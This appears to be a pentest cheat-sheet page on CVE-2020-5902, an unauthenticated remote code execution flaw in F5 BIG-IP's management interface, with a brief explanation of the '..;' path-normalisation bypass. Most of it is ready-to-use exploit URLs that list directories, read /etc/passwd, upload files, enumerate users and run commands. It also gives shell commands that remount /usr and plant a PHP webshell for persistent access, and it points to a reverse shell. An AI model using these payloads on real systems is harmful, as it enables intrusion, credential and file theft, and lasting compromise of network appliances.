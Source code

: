 # RCE on F5 Big-IP (CVE-2020-5902)

In BIG-IP versions `15.0.0-15.1.0.3`, `14.1.0-14.1.2.5`, `13.1.0-13.1.3.3`,
`12.1.0-12.1.5.1` and `11.6.1-11.6.5.1` there is a vulnerability on the
Traffic Management User Interface (TMUI) allowing a user to bypass the
authentication to read arbitrary files and execute commands.


## Exploit

### List files

```
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/etc/
```

### Read file

```
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

### Upload file

```
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp

fileName={FILE_DESTINATION_PATH}&content={FILE_CONTENT}
```

```
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName={FILE_DESTINATION_PATH}

{"output":"{FILE_CONTENT}\n"}
```

### List users

```
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```


### Execute commands

To execute commands, you need to create an alias then upload your command. You
can use a [reverse shell](reverse-shell.md) to gain an access to the box.

The following requests [from MSF](https://github.com/rapid7/metasploit-framework/pull/13807)
execute the `id` command on the vulnerable endpoint:

```
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/cmd&content=id
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/cmd
https://{IP}:{PORT}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+private+list
```

You can also [upload a webshell](https://research.nccgroup.com/2020/07/05/rift-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902-intelligence/)
to have a persistent access:

```bash
mount -o remount -rw /usr; echo '{BASE64_PAYLOAD}' | /usr/bin/openssl base64 -d -out /usr/local/www/xui/common/images/bg_status.php
mount -o remount -rw /usr; echo '{PHP_PAYLAOD}' > /usr/local/www/xui/common/scripts/utility.php; mount -o remount -r /usr
```

## Technical details

The vulnerability comes from how web servers parse URL. [OrangeTsai](https://twitter.com/orange_8361)
explained during a talk at the [Black Hat US-18](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)
how it's possible to bypass some verification between two different web servers.
On slide 51, he shows the example of Jira to access the secure dashboard with a
Path Traversal technique `..;`. This is the same technique here for the F5 TMUI.

```
https://jira.uberinternal.com/status/..;/secure/Dashboard.jspa
```
